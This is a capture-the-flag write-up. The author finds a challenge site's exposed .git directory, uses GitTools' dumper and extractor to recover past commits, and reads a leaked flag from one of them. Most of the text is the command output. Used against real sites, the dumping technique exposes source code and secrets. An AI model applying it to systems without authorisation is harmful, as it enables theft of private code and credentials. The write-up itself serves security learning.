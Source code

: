 # git goo

This challenge gave a link to a web page
>Can you find your way around a git reposotory [sic]?
`gitgoo.challs.pwnoh.io`

This web page was completely blank. I looked around in inspect element, to try and find some clue about what to do. I couldn't find anything, no network requests or other files.  

Based on the challenge description, I guessed that this was a git repository hosted to a web page. I knew that all git repositories have a /.git file, so I tried `gitgoo.challs.pwnoh.io/.git`

![Gitgoo Screenshot](/assets/gitgoo.png)

Now that I know I can access the `./git` folder, I looked up how this folder is organized. I found that a history of all committments could be found in `.git/logs/refs/heads/master`, so I tried that and found this.

![Gitgoo Screenshot](/assets/gitgoo.png)

I saw that in one of the past versions, the flag was accidentally uploaded. I looked up how to get past versions of the source code with the .git folder, and found [GitTools'](https://github.com/internetwache/GitTools) dumper and extractor tool.

```
$ bash ~/GitTool/Dumper/gitdumper.sh http://gitgoo.challs.pwnoh.io/.git/ ./dump
###########
# GitDumper is part of https://github.com/internetwache/GitTools
#
# Developed and maintained by @gehaxelt from @internetwache
#
# Use at your own risk. Usage might be illegal in certain circumstances.
# Only for educational purposes!
###########


[+] Downloaded: HEAD
[-] Downloaded: objects/info/packs
[+] Downloaded: description
[+] Downloaded: config
[+] Downloaded: COMMIT_EDITMSG
[+] Downloaded: index
[-] Downloaded: packed-refs
[+] Downloaded: refs/heads/master
[-] Downloaded: refs/remotes/origin/HEAD
[-] Downloaded: refs/stash
[+] Downloaded: logs/HEAD
[+] Downloaded: logs/refs/heads/master
[-] Downloaded: logs/refs/remotes/origin/HEAD
[-] Downloaded: info/refs
[+] Downloaded: info/exclude
[-] Downloaded: /refs/wip/index/refs/heads/master
[-] Downloaded: /refs/wip/wtree/refs/heads/master
[+] Downloaded: objects/39/1d507873dc7139d2420a8b492620db26912cdb
[-] Downloaded: objects/00/00000000000000000000000000000000000000
[+] Downloaded: objects/bc/97871a6f5453920882b0bbd97d8ac4fb2bcf9c
[+] Downloaded: objects/87/2e5099233f5d528ce3e60b4b197c9af17f784b
[+] Downloaded: objects/9b/474236ba20cf3f7d484b76348de51c819c0d65
[+] Downloaded: objects/7c/66dc0899a8bc61fb4775128363f6038cf0ddc6
[+] Downloaded: objects/7e/8a2b8a2ab84307eae435657c503c0b9f27af65
[+] Downloaded: objects/a4/68f07e26253bd5358684d39911f80c01e038a7
[+] Downloaded: objects/da/9c794745ce1c17844c0a03cb134e692d0f8353
[+] Downloaded: objects/7e/8cab9152f1e0689a48f210e679fb769284dea4
[+] Downloaded: objects/50/9dc2285f81184c13e362a2cd72a95382d54655
[+] Downloaded: objects/5a/ed32b539741d15880c69ab0cc7c72d26fb8ce7
[+] Downloaded: objects/1f/077205b3c88bda7cda44086dd0344494810ea2
```

This created a `.git` folder inside `./dump`, and now I can use the extractor to get the source code from the past commits

```
$ bash ~/GitTool/Extractor/extractor.sh ./ ./
###########
# Extractor is part of https://github.com/internetwache/GitTools
#
# Developed and maintained by @gehaxelt from @internetwache
#
# Use at your own risk. Usage might be illegal in certain circumstances.
# Only for educational purposes!
###########
[+] Found commit: bc97871a6f5453920882b0bbd97d8ac4fb2bcf9c
[+] Found file: /home/kyle/OSUCyber/ctf24/misc/gitgoo/dump/.//0-bc97871a6f5453920882b0bbd97d8ac4fb2bcf9c/index.html
[+] Found commit: 391d507873dc7139d2420a8b492620db26912cdb
[+] Found file: /home/kyle/OSUCyber/ctf24/misc/gitgoo/dump/.//1-391d507873dc7139d2420a8b492620db26912cdb/.gitignore
[+] Found file: /home/kyle/OSUCyber/ctf24/misc/gitgoo/dump/.//1-391d507873dc7139d2420a8b492620db26912cdb/Dockerfile
[+] Found file: /home/kyle/OSUCyber/ctf24/misc/gitgoo/dump/.//1-391d507873dc7139d2420a8b492620db26912cdb/app.py
[+] Found file: /home/kyle/OSUCyber/ctf24/misc/gitgoo/dump/.//1-391d507873dc7139d2420a8b492620db26912cdb/index.html
[+] Found commit: 9b474236ba20cf3f7d484b76348de51c819c0d65
[+] Found file: /home/kyle/OSUCyber/ctf24/misc/gitgoo/dump/.//2-9b474236ba20cf3f7d484b76348de51c819c0d65/.gitignore
[+] Found file: /home/kyle/OSUCyber/ctf24/misc/gitgoo/dump/.//2-9b474236ba20cf3f7d484b76348de51c819c0d65/Dockerfile
[+] Found file: /home/kyle/OSUCyber/ctf24/misc/gitgoo/dump/.//2-9b474236ba20cf3f7d484b76348de51c819c0d65/app.py
[+] Found file: /home/kyle/OSUCyber/ctf24/misc/gitgoo/dump/.//2-9b474236ba20cf3f7d484b76348de51c819c0d65/index.html
[+] Found commit: 872e5099233f5d528ce3e60b4b197c9af17f784b
[+] Found file: /home/kyle/OSUCyber/ctf24/misc/gitgoo/dump/.//3-872e5099233f5d528ce3e60b4b197c9af17f784b/Dockerfile
[+] Found file: /home/kyle/OSUCyber/ctf24/misc/gitgoo/dump/.//3-872e5099233f5d528ce3e60b4b197c9af17f784b/app.py
[+] Found file: /home/kyle/OSUCyber/ctf24/misc/gitgoo/dump/.//3-872e5099233f5d528ce3e60b4b197c9af17f784b/flag.txt
[+] Found file: /home/kyle/OSUCyber/ctf24/misc/gitgoo/dump/.//3-872e5099233f5d528ce3e60b4b197c9af17f784b/index.html
$ ls -la
total 28
drwxr-xr-x 7 kyle kyle 4096 Oct 29 17:49 .
drwxr-xr-x 5 kyle kyle 4096 Oct 29 17:44 ..
drwxr-xr-x 6 kyle kyle 4096 Oct 29 17:44 .git
drwxr-xr-x 2 kyle kyle 4096 Oct 29 17:49 0-bc97871a6f5453920882b0bbd97d8ac4fb2bcf9c
drwxr-xr-x 2 kyle kyle 4096 Oct 29 17:49 1-391d507873dc7139d2420a8b492620db26912cdb
drwxr-xr-x 2 kyle kyle 4096 Oct 29 17:49 2-9b474236ba20cf3f7d484b76348de51c819c0d65
drwxr-xr-x 2 kyle kyle 4096 Oct 29 17:49 3-872e5099233f5d528ce3e60b4b197c9af17f784b
```

Based on `.git/logs/refs/heads/master`, the folder that I wanted had the id `9b474236ba20cf3f7d484b76348de51c819c0d65`. For some reason it wasn't there, so I tried the next file.

```
$ cd 3-872e5099233f5d528ce3e60b4b197c9af17f784b/
$ ls
Dockerfile  app.py  commit-meta.txt  flag.txt  index.html
$ cat flag.txt
bctf{1_h4v3_c0mm17m3n7_i55u3s_cf39ab917a7dd092992a8f9b}
```

